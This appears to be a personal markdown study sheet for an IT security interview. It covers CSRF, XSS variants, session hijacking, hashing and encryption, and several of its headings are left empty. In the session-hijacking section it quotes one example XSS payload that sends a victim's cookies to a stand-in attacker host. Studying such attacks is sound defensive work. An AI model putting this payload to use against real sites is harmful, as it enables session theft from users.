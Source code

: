 # Preparing for IT Security Interview!
## Cybersecurity First-aid
Check JD requirement -> Section titles
### Cross Site Request Forgery (CSRF)
- may require social engineering
- an authenticated users(eg. logged in)
- Trick them into sending a request they didn't want to(eg. sending money, changing password)
- 
### XSS
Conditions:
- User Input 
- Unsantized Dynamic website content sent to users without validation 
#### Stored XSS
- Eg. In forum, log
#### Reflected XSS(non-permanent)
- Has less reach than stored but more common 
Process
- Email with malicious link
- Send a specially crafted request to the website. Can be an error message which do not sanitized fully, or search result
- The website didn't sanitize it and execute malicious code

## Cookie and Session hijacking 
https://www.thesslstore.com/blog/the-ultimate-guide-to-session-hijacking-aka-cookie-hijacking/
- Web servers track users with their session ID to keep a user signing in
- Session fixation
	- bank.com/login?sid=123456
- XSS
	- `http://www.yourbankswebsite.com/search?<script>location.href=’http://www.evilattacker.com/hijacker.php?cookie=’+document.cookie;</script>`
## Hashing
Md5 Sha 256 one way function signature
Password storage check file unedited 
## Symmetric Vs Asymmetric Encryption


## Public Key and Private Key Infrastructure

## OWASP 10
## SANS Top 25
## Threat Modelling
- Stride dread pasta
## SSL Vs TLS
## HTTP Vs HTTPS

Perimeter Protection?

## Authentication Vs Authorization
- former is checking if users are who they claim to be
- latter is giving permission to users